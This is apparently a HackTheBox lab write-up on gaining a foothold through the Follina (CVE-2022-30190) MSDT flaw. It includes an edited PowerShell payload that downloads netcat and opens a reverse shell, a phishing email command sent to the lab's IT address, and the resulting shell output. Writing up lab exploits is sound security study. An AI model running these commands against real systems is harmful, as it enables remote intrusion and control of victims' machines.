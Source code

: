 We want to utilize the CVE-2022-30190 (MSDT Follina) to download malicious scripts via en embeded link.
To do this we use [John Hammonds](https://github.com/JohnHammond/msdt-follina) script which will create a malicious `.doc` file, host a webserver with needed html payload, and will start a netcat listener for you.

The payload will try to download ``nc64.exe`` and upload it to the victim, which will then be used to create a reverse shell. 
The code for this points towards John Hammonds Github, so since this is HackTheBox we need to change that to point to our local attacking machine. 

This is row 111 in `follina.py` after editing:
```
command = f"""Invoke-WebRequest http://10.10.14.2:8888/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```

We can now execute `follina.py` and on the first row we'll find the staging directory - it looks something like this `[+] copied staging doc /tmp/67gup9zc`
**Copy nc64.exe** to ``/tmp/67gup9zc/www`` and now you're ready to send your email. 

```bash
➜  msdt-follina ls -al /tmp/67gup9zc/www
total 64
drwxr-xr-x 2 void void  4096 Aug 19 13:04 .
drwxr-xr-x 4 void void  4096 Aug 19 12:54 ..
-rw-r--r-- 1 void void  4689 Aug 19 12:54 index.html
-rwxr-xr-x 1 void void 45272 Aug 19 13:04 nc64.exe

➜  msdt-follina sendEmail -t itsupport@outdated.htb -f 0xpthree@exploit.se -s mail.outdated.htb -u PleaseWork -m 'http://10.10.14.2/'
Aug 19 12:54:31 void sendEmail[17349]: Email was sent successfully!

➜  msdt-follina python3 follina.py -i tun0 -p 80 -r 4444     
[+] copied staging doc /tmp/67gup9zc
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 4444' 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49822
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\btables\AppData\Local\Temp\SDIAG_9fb3a047-99c4-4779-8d48-a154f6f5936e>whoami
outdated\btables
```

**NOTE:** For me to figure this out I downloaded and setup a python3 http redirect to log and see what happened behind the scenes, this could also have been done using Wireshark or anything similar. 

```
➜  msdt-follina python3 redirect.py 80 http://10.10.14.2:8888
10.10.11.175 - - [19/Aug/2022 12:18:18] "GET / HTTP/1.1" 301 -
10.10.11.175 - - [19/Aug/2022 12:18:20] "GET /nc64.exe HTTP/1.1" 301 -
```
